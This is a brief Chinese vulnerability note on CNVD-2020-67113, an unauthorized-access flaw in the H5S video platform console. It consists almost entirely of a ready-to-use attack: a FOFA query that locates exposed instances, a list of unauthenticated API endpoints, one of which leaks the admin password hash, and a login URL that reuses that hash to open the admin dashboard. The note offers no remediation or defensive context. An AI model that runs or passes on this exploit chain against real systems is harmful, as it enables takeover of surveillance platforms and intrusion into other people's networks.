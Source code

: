 # 零视技术 H5S CONSOLE 未授权访问漏洞 CNVD-2020-67113

## 网络测绘

fofa: title="H5S视频平台|WEB"

## POC / EXP

```
/doc/
/doc/devtemplate.xlsx
/doc/api.html
/doc/H5S视频平台用户手册-zh.chm

/api/v1/GetSystemInfo
/api/v1/Getsrc
/api/v1/GetRegion?session=null
/api/v1/GetDevice

/api/v1/GetUserInfo?user=admin&session=
{
 "strUser": "admin",
 "strPasswd": "827ccb0eea8a706c4c34a16891f84e7b",
 "strUserType": "Administrator",
 "strRole": "Administrator"
}

/api/v1/Login?user=admin&password=827ccb0eea8a706c4c34a16891f84e7b
/#/Dashboard
```